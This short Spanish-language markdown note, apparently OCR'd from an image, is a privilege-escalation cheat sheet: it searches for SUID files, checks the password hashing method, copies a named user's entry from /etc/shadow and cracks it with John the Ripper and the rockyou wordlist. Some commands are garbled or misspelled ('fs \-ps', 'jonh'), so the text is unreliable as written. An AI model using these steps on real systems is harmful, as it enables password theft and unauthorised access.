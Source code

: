 # Explotación y abuso de privilegios

```bash
  fs \-ps -4000 2>/dev/null
```

- Podemos ver la encriptación de las contraseña
```bash
  cat /etc/login.defs | grep "ENCRYPT_METHOD"
```

- Generamos el hash del usuario que queremos hackear
```bash
  cat /etc/shadow | grep pepito > hash
```

- Luego con la herramienta jonh podemos desencriptar el hash
```bash
  john --wordlist=rockyou.txt hash
```

- Y por ultimo mostramos el hash
```bash 
  jonh --show hash
```

